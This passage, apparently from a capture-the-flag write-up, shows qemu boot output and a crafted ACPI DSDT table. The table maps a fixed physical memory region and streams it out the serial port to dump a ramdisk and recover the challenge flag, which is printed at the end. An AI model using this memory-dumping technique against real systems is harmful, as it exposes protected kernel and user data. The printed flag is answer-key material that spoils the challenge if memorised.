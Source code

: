Which after loading into qemu printed out:

```bash
Spectre V2 : Spectre mitigation: kernel not compiled with retpoline; no mitigation available!
Hello World!
The only safe & powersaving computer is turned off one!
\x00reboot: System halted
```

Great! So now we can dump the ram disk and extract the filesystem and the flag using the following DSDT:
```haskell
DefinitionBlock ("", "DSDT", 1, "BOCHS ", "BXPCDSDT", 0x00000002)
{
    Scope (\)
    {
        OperationRegion (DBG, SystemIO, 0x3f8, One)
        Field (DBG, ByteAcc, NoLock, Preserve)
        {
            DBGB,   8
        }

        Method (DBUG, 2, NotSerialized)
        {
            Local1 = Arg1
            Local2 = Zero
            While ((Local2 < Local1))
            {
                DBGB = DerefOf (Arg0 [Local2])
                Local2++
            }
        }

        Method (_INI, 0, NotSerialized) {
            OperationRegion (PWN1, SystemMemory, 0x538df000, 0x1000)
            Field (PWN1, AnyAcc, NoLock, Preserve)
            {
                MEM1, 0x8000,
            }

            DBUG(MEM1, 0x1000)
        }
    }
}
```

`hxp{1_7h0u6h7_w17h_KASLR_3v3ry7h1n6_w1ll_b3_f1n3_:(}`
